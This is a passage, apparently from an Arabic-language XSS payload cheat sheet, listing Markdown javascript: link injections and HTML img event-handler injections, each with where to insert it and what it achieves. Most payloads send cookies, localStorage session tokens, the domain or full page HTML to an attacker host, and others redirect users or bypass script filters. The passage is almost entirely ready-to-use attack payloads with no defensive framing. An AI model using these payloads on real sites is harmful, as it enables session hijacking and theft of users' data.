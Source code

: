 #### ب. حقن باستخدام روابط JavaScript
استخدام صيغة الروابط في Markdown لتنفيذ JavaScript.
- **الحقن**: `[Click](javascript:alert('XSS'))`
  - **الإدخال**: أدخل في منشور: `[Click](javascript:alert('XSS'))`
  - **كيف يعمل**: ينفذ تنبيهًا عند النقر على الرابط.
  - **متى يُستخدم؟**: لتأكيد الثغرة عند التفاعل.
- **الحقن**: `[Click](javascript:fetch('http://attacker.com/log?c='+document.cookie))`
  - **الإدخال**: أدخل في حقل تعليق: `[Click](javascript:fetch('http://attacker.com/log?c='+document.cookie))`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند النقر.
  - **متى يُستخدم؟**: لسرقة البيانات عند التفاعل.
- **الحقن**: `[Click](javascript:document.location='http://attacker.com')`
  - **الإدخال**: `https://example.com/?comment=[Click](javascript:document.location='http://attacker.com')`
  - **كيف يعمل**: يعيد توجيه المستخدم عند النقر.
  - **متى يُستخدم؟**: لإعادة التوجيه.
- **الحقن**: `[Click](javascript:new Image().src='http://attacker.com/log?d='+document.domain)`
  - **الإدخال**: أدخل في وصف: `[Click](javascript:new Image().src='http://attacker.com/log?d='+document.domain)`
  - **كيف يعمل**: يرسل النطاق عند النقر.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `[Click](javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')}))`
  - **الإدخال**: أدخل في منشور: `[Click](javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')}))`
  - **كيف يعمل**: يرسل رمز الجلسة عند النقر.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.

#### ج. حقن باستخدام وسوم صور أو أحداث
استخدام وسوم HTML مثل `<img>` مع أحداث لتنفيذ JavaScript.
- **الحقن**: `<img src=x onload="alert('XSS')">`
  - **الإدخال**: أدخل في حقل تعليق: `<img src=x onload="alert('XSS')">`
  - **كيف يعمل**: ينفذ تنبيهًا عند تحميل الصورة.
  - **متى يُستخدم؟**: لتأكيد الثغرة تلقائيًا.
- **الحقن**: `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **الإدخال**: أدخل في منشور: `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند تحميل الصورة.
  - **متى يُستخدم؟**: لسرقة البيانات تلقائيًا.
- **الحقن**: `<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">`
  - **الإدخال**: `https://example.com/?comment=<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">`
  - **كيف يعمل**: يرسل النطاق عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لتجاوز فلاتر `<script>`.
- **الحقن**: `<img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">`
  - **الإدخال**: أدخل في وصف: `<img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">`
  - **كيف يعمل**: يرسل محتوى الصفحة عند تحميل الصورة.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.
- **الحقن**: `<img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">`
  - **الإدخال**: أدخل في حقل تعليق: `<img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">`
  - **كيف يعمل**: يرسل رمز الجلسة عند تمرير المؤشر.
  - **متى يُستخدم؟**: لتتبع التفاعل.

